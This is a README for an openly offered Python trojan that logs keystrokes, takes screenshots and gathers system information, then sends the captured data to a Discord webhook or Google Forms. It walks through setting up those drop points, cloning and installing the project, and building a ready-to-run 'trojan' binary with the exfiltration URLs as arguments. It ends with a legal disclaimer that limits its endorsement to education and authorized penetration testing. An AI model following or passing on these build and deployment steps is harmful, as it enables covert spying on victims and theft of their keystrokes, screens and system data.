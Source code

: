 # Python 3 Trojan

![Python Version](https://img.shields.io/badge/python-3.9+-blue?style=for-the-badge&logo=python)
[![CodeFactor Grade](https://img.shields.io/codefactor/grade/github/EONRaider/BCA-Trojan?label=CodeFactor&logo=codefactor&style=for-the-badge)](https://www.codefactor.io/repository/github/EONRaider/BCA-Trojan)
![OS](https://img.shields.io/badge/GNU%2FLinux-red?style=for-the-badge&logo=linux)
![OS](https://img.shields.io/badge/Windows-blue?style=for-the-badge&logo=windows)

[![Reddit](https://img.shields.io/badge/Reddit-EONRaider-FF4500?style=flat-square&logo=reddit)](https://www.reddit.com/user/eonraider)
[![Discord](https://img.shields.io/badge/Discord-EONRaider-7289DA?style=flat-square&logo=discord)](https://discord.gg/KVjWBptv)
[![Twitter](https://img.shields.io/badge/Twitter-eon__raider-38A1F3?style=flat-square&logo=twitter)](https://twitter.com/intent/follow?screen_name=eon_raider)

A **cross-platform Trojan** written in Python 3. Binaries for Linux and Windows 
platforms can be built through an embedded script that implements PyInstaller.

Captured data such as **keystrokes, screenshots and system information** are exfiltrated 
to a Discord server and/or Google Forms instance through HTTPS.

## Demo
![demo]()

## Setup and Build
Once the URLs for the Discord server's Webhook and/or Google Forms instance are 
ready you only need to (I) install the dependencies and (II) run `build.py` with 
the URLs as arguments.

### I. Set up a Discord server and/or Google Forms instance
You need at least one of the methods for successful exfiltration.
- **Discord:** Head over to https://www.discord.com and create a new Discord account and 
server, if necessary. [Create a Webhook URL](https://www.digitalocean.com/community/tutorials/how-to-use-discord-webhooks-to-get-notifications-for-your-website-status-on-ubuntu-18-04) 
for any suitable channel and copy the URL.

  ![webhook_Setup](https://github.com/EONRaider/static/blob/c4754c75475b223d02d75039f30e9846d4e92fc8/trojan/webhook_setup.png)

- **Google Forms:** Create a form on https://docs.google.com/forms (all you need is a 
Google account for that). Set up as many questions as you need, with any names. *The 
exfiltration will always work as long as the first question is of type **Paragraph**.*

  ![forms_setup](https://github.com/EONRaider/static/blob/c4754c75475b223d02d75039f30e9846d4e92fc8/trojan/forms_setup.png)

### II. Build the binary
Dependency management works with both [Poetry](https://python-poetry.org/) (recommended)
and [Virtualenv](https://virtualenv.pypa.io/en/latest/). *You need to install all 
dependencies before building*.
```shell
git clone https://github.com/EONRaider/BCA-Trojan.git
cd BCA-Trojan
poetry install <--or--> pip install -r requirements.txt
```

With all dependencies in place the `build.py` file takes care of the rest.
```shell
python build.py \
--webhook https://discord.com/api/webhooks/YOUR-WEBHOOK-ID
--forms https://docs.google.com/forms/d/e/YOUR-FORM-ID/viewform
```
The result is a binary file named `trojan` that is ready for execution.

## Usage
```
usage: trojan.py [-h] [-w <webhook_url>] [-f <google_forms_url>] [-e <seconds>]

BCA Trojan - Log keystrokes, takes screenshots, grab system information and exfiltrate to Discord and Google Forms

optional arguments:
  -h, --help            show this help message and exit
  -w <webhook_url>, --webhook <webhook_url>
                        URL of a Webhook for the Discord server.
  -f <google_forms_url>, --forms <google_forms_url>
                        URL of a remote instance of Google Forms.
  -e <seconds>, --exfil-time <seconds>
                        Time in seconds to wait between periodic executions of the exfiltration of logged data. Defaults to 30 seconds. Set to None to perform a single operation.
```

## Development mode (optional)
You could optionally run the Trojan directly from a local Python 3 interpreter. 
[Install all dependencies](https://github.com/EONRaider/BCA-Trojan/tree/master#i-install-dependencies) 
and run the `src/trojan.py` file with the required arguments for the Discord Webhook 
and/or Google Forms URLs.

```shell
python src/trojan.py --webhook YOUR-WEBHOOK-URL --forms YOUR-GOOGLE-FORMS-URL
```

## Legal Disclaimer

The use of code contained in this repository, either in part or in its totality,
for engaging targets without prior mutual consent is illegal. **It is
the end user's responsibility to obey all applicable local, state and
federal laws.**

Developers assume **no liability** and are not
responsible for misuses or damages caused by any code contained
in this repository in any event that, accidentally or otherwise, it comes to
be utilized by a threat agent or unauthorized entity as a means to compromise
the security, privacy, confidentiality, integrity, and/or availability of
systems and their associated resources. In this context the term "compromise" is
henceforth understood as the leverage of exploitation of known or unknown vulnerabilities
present in said systems, including, but not limited to, the implementation of
security controls, human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those
circumstances directly related to **educational environments** or
**authorized penetration testing engagements** whose declared purpose is that
of finding and mitigating vulnerabilities in systems, limiting their exposure
to compromises and exploits employed by malicious agents as defined in their
respective threat models.
